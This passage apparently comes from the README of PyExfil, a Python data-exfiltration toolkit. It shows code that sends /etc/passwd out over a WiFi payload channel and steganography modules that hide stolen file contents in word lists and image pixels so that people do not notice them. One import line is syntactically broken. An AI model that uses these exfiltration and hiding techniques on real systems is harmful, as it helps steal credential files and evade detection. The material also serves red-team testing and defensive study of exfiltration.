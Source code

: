 ```python
# Client (exfiltrator)
from pyexfil.physical.wifiPayload import client

client.exfiltrate(file_path="/etc/passwd", key="shut_the_fuck_up_donnie!")

# Server (listener)
from pyexfil.physical.wifiPayload import server

server.StartListening(adapter="en0")
```

### Steganography

#### BIP Style Dictionary
This module will use a previously made dictionary (that be be replaced with any unique list of words with 65,536 words) to encode data into a list of words. The idea is that the list of words will be used to replace the bytes in a file. The resulting text will **not** be legible and will raise suspicion by any human reading it. This module is meant to be used in conjunction with other modules to exfiltrate data **OR** by embedding this text on a text based communication service. For example, an email or an Office document can include text that is not legible to the human eye but can be decoded by the module.

```python
from pyexfil.Stega.ConvertToText as BipExport

packed = BipExport.Load('/etc/passwd')     # Encode
print(BipExport.Decode(packed))            # Decode
```

#### Datamatrix over LSB
This module will take a file and encode it into a datamatrix code. The datamatrix code will be encoded into the LSB of an image. The resulting image will be saved in the same directory as the original image. It works in a similar manner to other LSB mechanisms, however, since the data is encoded by using a DataMatrix code, the data is more reliable and can be decoded with a higher success rate, and more importantly, the data is not legible to the human eye - hence stealthy.

```python
from pyexfil.Stega.datamatrix import DataMatrixOverLSB

this = DataMatrixOverLSB()

this.Encode('hello wrld'.encode('utf8')*50, 'image.png', 'Encoded.png')
this.Decode(image_path='Encoded.png')
```

#### Image Binary Offset
The binary offset technique will take a file, (zlib it), convert it into a binary string *b01010101...*, and then take an image, and convert it into a pixel array with 3 entities per pixel `(int(R),int(G),int(B))`. In case where the image has a transperancy pixel (PNG for example) the PyExfil will currently ignore it. Then the binary string will be incorprated into the pixel array and saved in another location.

The result, is an image file that contains all the data. Without the original image file you cannot decode the image as there is nothing to compare the changes to.
